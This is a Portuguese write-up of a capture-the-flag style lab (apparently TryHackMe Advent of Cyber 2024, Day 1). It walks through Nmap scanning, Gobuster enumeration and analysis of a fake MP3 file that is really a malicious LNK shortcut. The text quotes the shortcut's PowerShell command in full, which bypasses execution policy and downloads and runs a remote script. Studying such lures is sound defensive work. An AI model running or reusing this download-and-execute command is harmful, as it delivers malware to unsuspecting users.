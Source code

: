 # Advent-of-Cyber-2024-THM
![image](https://github.com/user-attachments/assets/04709f1d-900f-4a3e-9952-d24ccf24caf3)

Tarefa 7

Segurança operaciona

Dia 1: Talvez a música do SOC-mas, ele pensou, não venha de uma loja?

RESOLUÇÃO DAS QUESTÕES:

Executei o Nmap para escanear as portas que estavam abertas, o resultado mostrou 3 portas:
Porta 22 (SSH)
Porta 80 (HTTP)
Porta 8000 (HTTP-alt)



![image](https://github.com/user-attachments/assets/c7d43844-fdc9-454a-b562-953a2924df0f)

Em seguida enumerei os diretórios do webserver com o Gobuster, o que me mostrou o diretório /download estando disponivel



![image](https://github.com/user-attachments/assets/947a076f-b968-4f0e-a30b-a28302a3e680)

Acesse o diretório como http://IP_DA_MAQUINA/download, assim ele já faz download do arquivo zip denominado download.zip.

![image](https://github.com/user-attachments/assets/994d2165-81f4-4ee3-825c-79bc170fdae2)


Descompacte o arquivo zip, e lá conterá dois arquivos .mp3, sendo eles song.mp3 e somg.mp3

Utilizando o comando file song.mp3 eu identifiquei o arquivo como sendo um áudio em formato MPEG ADTS se trata realmente de um arquivo de musica, não tem nada de suspeito nele.
![image](https://github.com/user-attachments/assets/1d3396c9-3635-49b9-bcf2-8a1d47a8f7f8)

Mas temos um arquivo disfarçado sendo o segundo arquivo chamado de somg.mp3, a primeira vista também pode parecer suspeito por ter um erro de ortografia. mas iremos analisar a fundo esse arquivo.
Utilizei o comando file somg.mp3 identifiquei como um atalho LNK ao inves de um arquivo de audio, que apontava para o powershell.exe. iremos nos apronfundar muito mais.
![image](https://github.com/user-attachments/assets/4b9fb32d-e983-4834-9a9b-7282d912d88b)

Usei exiftool somg.mp3, para obter informações mais detalhadas sobre o atalho, e o arquivo apontava para um comando PowerShell, que baixava e executava um script localizado no GitHub, sendo o comando:
powershell.exe -ep bypass -nop -c (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1')

![image](https://github.com/user-attachments/assets/fdf7380b-cde3-42af-8c72-8a3699b23b60)



RESPONDENDO A 1ª PERGUNTA
![image](https://github.com/user-attachments/assets/45ce33f5-bab7-4c73-b64f-6bede4101ee0)
Eu também usei o exiftool no arquivo song.mp3, confirmando que ele era realmente um arquivo MP3 e obtendo a informação da 1ª pergunta da TAREFA 7, sendo o Artista: Tyler Ramsbey

